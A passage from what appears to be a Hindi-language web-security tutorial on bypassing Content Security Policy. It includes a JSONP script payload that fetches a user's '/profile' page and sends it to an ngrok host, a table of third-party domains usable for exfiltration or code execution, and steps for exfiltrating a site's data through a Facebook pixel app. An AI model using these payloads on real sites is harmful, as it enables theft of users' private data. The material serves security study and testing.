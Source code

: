 ```html
https://www.youtube.com/oembed?callback=alert;
<script src="https://www.youtube.com/oembed?url=http://www.youtube.com/watch?v=bDOYN-6gdRE&format=json&callback=fetch(`/profile`).then(function f1(r){return r.text()}).then(function f2(txt){location.href=`https://b520-49-245-33-142.ngrok.io?`+btoa(txt)})"></script>
```
[**JSONBee**](https://github.com/zigoo0/JSONBee) **विभिन्न वेबसाइटों के CSP बायपास के लिए उपयोग करने के लिए तैयार JSONP एंडपॉइंट्स शामिल करता है।**

यदि **विश्वसनीय एंडपॉइंट में एक ओपन रीडायरेक्ट है**, तो वही भेद्यता उत्पन्न होगी क्योंकि यदि प्रारंभिक एंडपॉइंट विश्वसनीय है, तो रीडायरेक्ट विश्वसनीय होते हैं।

### थर्ड पार्टी दुरुपयोग

जैसा कि [निम्नलिखित पोस्ट](https://sensepost.com/blog/2023/dress-code-the-talk/#bypasses) में वर्णित है, कई थर्ड पार्टी डोमेन हैं, जो CSP में कहीं न कहीं अनुमति दी जा सकती हैं, जिन्हें डेटा को एक्सफिल्ट्रेट करने या जावास्क्रिप्ट कोड निष्पादित करने के लिए दुरुपयोग किया जा सकता है। इनमें से कुछ थर्ड-पार्टी हैं:

| Entity            | Allowed Domain                               | Capabilities |
| ----------------- | -------------------------------------------- | ------------ |
| Facebook          | www.facebook.com, \*.facebook.com            | Exfil        |
| Hotjar            | \*.hotjar.com, ask.hotjar.io                 | Exfil        |
| Jsdelivr          | \*.jsdelivr.com, cdn.jsdelivr.net            | Exec         |
| Amazon CloudFront | \*.cloudfront.net                            | Exfil, Exec  |
| Amazon AWS        | \*.amazonaws.com                             | Exfil, Exec  |
| Azure Websites    | \*.azurewebsites.net, \*.azurestaticapps.net | Exfil, Exec  |
| Salesforce Heroku | \*.herokuapp.com                             | Exfil, Exec  |
| Google Firebase   | \*.firebaseapp.com                           | Exfil, Exec  |

यदि आप अपने लक्ष्य के CSP में किसी भी अनुमति प्राप्त डोमेन को पाते हैं, तो संभावना है कि आप थर्ड-पार्टी सेवा पर पंजीकरण करके CSP को बायपास कर सकते हैं और, या तो उस सेवा पर डेटा को एक्सफिल्ट्रेट कर सकते हैं या कोड निष्पादित कर सकते हैं।

उदाहरण के लिए, यदि आप निम्नलिखित CSP पाते हैं:
```
Content-Security-Policy​: default-src 'self’ www.facebook.com;​
```
या
```
Content-Security-Policy​: connect-src www.facebook.com;​
```
आपको डेटा को एक्सफिल्ट्रेट करने में सक्षम होना चाहिए, जैसे कि हमेशा [Google Analytics](https://www.humansecurity.com/tech-engineering-blog/exfiltrating-users-private-data-using-google-analytics-to-bypass-csp)/[Google Tag Manager](https://blog.deteact.com/csp-bypass/) के साथ किया गया है। इस मामले में, आप इन सामान्य चरणों का पालन करते हैं:

1. यहाँ एक Facebook Developer खाता बनाएं।
2. एक नया "Facebook Login" ऐप बनाएं और "Website" चुनें।
3. "Settings -> Basic" पर जाएं और अपना "App ID" प्राप्त करें।
4. लक्षित साइट पर, जिससे आप डेटा एक्सफिल्ट्रेट करना चाहते हैं, आप "customEvent" और डेटा पेलोड के माध्यम से Facebook SDK गैजेट "fbq" का सीधे उपयोग करके डेटा एक्सफिल्ट्रेट कर सकते हैं।
5. अपने ऐप के "Event Manager" पर जाएं और उस एप्लिकेशन का चयन करें जिसे आपने बनाया है (ध्यान दें कि इवेंट मैनेजर एक URL में पाया जा सकता है जो इस तरह का है: https://www.facebook.com/events\_manager2/list/pixel/\[app-id]/test\_events)
6. "Test Events" टैब का चयन करें ताकि "आपकी" वेबसाइट द्वारा भेजे जा रहे इवेंट्स को देखा जा सके।

